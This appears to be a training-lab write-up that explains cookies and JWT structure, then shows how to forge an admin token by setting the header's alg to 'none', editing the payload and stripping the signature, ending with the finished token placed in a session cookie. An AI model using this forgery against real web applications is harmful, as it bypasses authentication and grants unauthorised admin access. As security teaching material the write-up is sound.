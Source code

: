 
![](assets/Pasted%20image%2020241128131859.png)
# Introduction

Let's think of how web applications maintain sessions. Usually, when a user logs into an application, they will be assigned some sort of session token that will need to be saved on the browser for as long as the session lasts. This token will be repeated on each subsequent request so that the web application knows who we are. These session tokens can come in many forms but are usually assigned via cookies. **Cookies** are key-value pairs that a web application will store on the user's browser and that will be automatically repeated on each request to the website that issued them.

**JWTs** are very simple tokens that allow you to store key-value pairs on a token that provides integrity as part of the token. The idea is that you can generate tokens that you can give your users with the certainty that they won't be able to alter the key-value pairs and pass the integrity check. The structure of a JWT token is formed of 3 parts:

![](assets/Pasted%20image%2020241128132102.png)

Notice that each of the 3 parts of the token is simply plaintext encoded with base64. You can use [this online tool](https://appdevtools.com/base64-encoder-decoder) to encode/decode base64. Try decoding the header and payload of the following token:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjY1MDc2ODM2fQ.C8Z3gJ7wPgVLvEUonaieJWBJBYt5xOph2CpIhlxqdUw
```

```
┌─[lnxuser@redzone]─[/tmp]
└──╼ $echo eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9 | base64 -d
{"typ":"JWT","alg":"HS256"}
```

```
┌─[lnxuser@redzone]─[/tmp]
└──╼ $echo eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjY1MDc2ODM2fQ | base64 -d
{"username":"guest","exp":1665076836}
```

```
C8Z3gJ7wPgVLvEUonaieJWBJBYt5xOph2CpIhlxqdUw - this string is hash of above 2.
```

Taking the JWT from before as an example, if we wanted to change the payload so that the username becomes "admin" and no signature check is done, we would have to decode the header and payload, modify them as needed, and encode them back. **Notice how we removed the signature part but kept the dot at the end**

1. Modify the header section of the token so that the `alg` header would contain the value `none`.
2. Remove the signature part.

![](assets/Pasted%20image%2020241128132533.png)

Creating malicious JWT for admin

![](assets/Pasted%20image%2020241128132730.png)
![](assets/Pasted%20image%2020241128132836.png)

We get below JWT.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjY1MDc2ODM2fQ.
```

Inserting this cookie in `jwt-session` grants admin access.

![](assets/Pasted%20image%2020241128133413.png)